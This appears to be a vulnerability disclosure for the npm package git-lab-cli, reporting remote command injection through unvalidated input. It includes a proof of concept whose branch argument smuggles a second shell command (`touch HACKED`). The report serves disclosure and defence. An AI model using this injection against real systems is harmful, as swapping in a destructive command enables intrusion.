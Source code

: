 # :bug: Description

The `git-lab-cli` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Check there aren't files called `HACKED` 
2. Execute the following commands in another terminal:

```bash
npm i git-lab-cli # Install affected module
lab compare -b 't; touch HACKED; #' #  Run the PoC
```
3. Recheck the files: now `HACKED` has been created

